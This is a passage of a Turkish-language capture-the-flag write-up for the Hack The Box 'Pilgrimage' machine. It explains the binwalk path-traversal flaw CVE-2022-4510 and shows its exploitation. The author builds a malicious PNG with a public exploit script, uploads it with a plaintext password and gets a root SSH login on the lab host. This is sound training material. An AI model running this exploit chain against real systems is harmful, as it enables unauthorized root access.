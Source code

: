 Bu sürüm v2.3.2.

“binwalk CVE” araması CVE-2022-4510'a bir sürü referans döndürür:

![Pasted image 20250107032730.png](/img/user/resimler/Pasted%20image%2020250107032730.png)

Bu sürüm savunmasız olmalıdır.

#### Details

[OneKey'den bu yazı](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/), araştırmacılarının bu sorunu nasıl bulduğunu açıklıyor. **binwalk** aslında bir **Python script**'idir ve yolları oluşturmak için **os.path.join** kullanır. Sorun, birleştirilen öğelerden birinde **../** bulunursa, bunların çözülmemesidir.

Bir **PFS** dosya sistemindeki dosyalar, dosya adlarında **../** içerebilir.

Bu nedenle, kod bir **os.path.join** işlemi yapar ve ardından ortaya çıkan yolun belirlenen dizinle başladığından emin olmak için kontrol eder, ancak **../** çözülmediği için bu kontrol hiçbir zaman tetiklenmez ve bu da atlatılır.

Bu durum, **binwalk** süreci olarak **arbitrary write** (istediğiniz dosyaya yazma) sağlar. Bu, bir **authorized_keys** dosyasını veya **crontab** dosyasını üzerine yazmak suretiyle istismar edilebilir. Yazının yazarında, **binwalk** taraması sırasında gerçekten çalışacak şekilde alınan ve yürütülen bir **binwalk plugin**'i yazma yöntemi gösterilmektedir.



#### Exploit

Bu [repoda](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) plugin oluşturma yöntemini kötüye kullanan çalışan bir Python exploit'i var. Ssh yöntemini deneyeceğim, bir template dosyası ve bir public key vereceğim:

```
oxdf@hacky$ python walkingpath.py ssh root.png ~/keys/ed25519_gen.pub 
```

Çıktı, **binwalk_exploit.png** adlı bir dosya. Bunu **shrunk** dizinine yükleyeceğim:

```
oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

Oradan, root olarak SSH ile giriş yapabiliyorum:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@pilgrimage:~# 
```

And get the root flag:

```
root@pilgrimage:~# cat root.txt
6108bf44************************
```

Medium yazısı : https://medium.com/@babayaga00897/pilgrimage-htb-writeup-ae8242270434


